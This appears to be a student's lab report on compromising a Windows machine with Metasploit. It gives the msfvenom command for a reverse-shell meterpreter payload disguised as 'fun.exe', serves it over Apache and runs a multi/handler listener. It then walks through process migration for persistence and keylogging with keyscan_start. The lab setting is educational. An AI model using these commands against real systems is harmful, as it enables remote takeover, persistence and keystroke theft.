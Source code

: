 ```
NAME :SANKAR S
DEPT : CSE
REG NO : 212224040291

```



# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


### Find the attackers ip address using ifconfig

## OUTPUT :

![IFCONFIG](img/01.png)

### Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :

![PAYLOAD](img/02.png)

copy the fun.exe into the apache /var/www/html folder
sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT :

![STATUS CHECK](img/03.png)

### Invoke msfconsole:
## OUTPUT:
![MSFCONSOLE](img/04.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![HELP](img/05.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT :

![RECENT](img/RECENT.png)

### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads

## BROWSE OUTPUT :

![SEARCH](img/G1.png)

## DOWNLOAD OUTPUT :

![DOWNLOAD](img/G2.png)

## COME BACK TO PARROT :

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![PS](<img/og 06.png>)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT :

![NETSTAT](img/07.png)

## WINDOWS OUTPUT :
![TYPE](img/G3.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :

![TYPE OUTPUT](img/09.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
